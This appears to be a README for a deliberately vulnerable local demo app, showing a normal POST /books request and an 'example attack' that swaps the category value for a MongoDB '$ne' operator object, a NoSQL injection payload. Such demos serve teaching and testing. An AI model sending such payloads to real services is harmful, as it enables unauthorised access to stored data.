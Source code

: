 - `docker-compose up --build`
- Access to http://localhost:5000/

## Example request:
```http
POST /books HTTP/1.1
Host: localhost:5000
Content-Type: application/json
Accept-Language: en-US
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 25

{
  "category":"classic"
}
```

## Example attack:
```http
POST /books HTTP/1.1
Host: localhost:5000
Content-Type: application/json
Accept-Language: en-US
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 25

{
  "category":{
    "$ne":""
  }
}
```
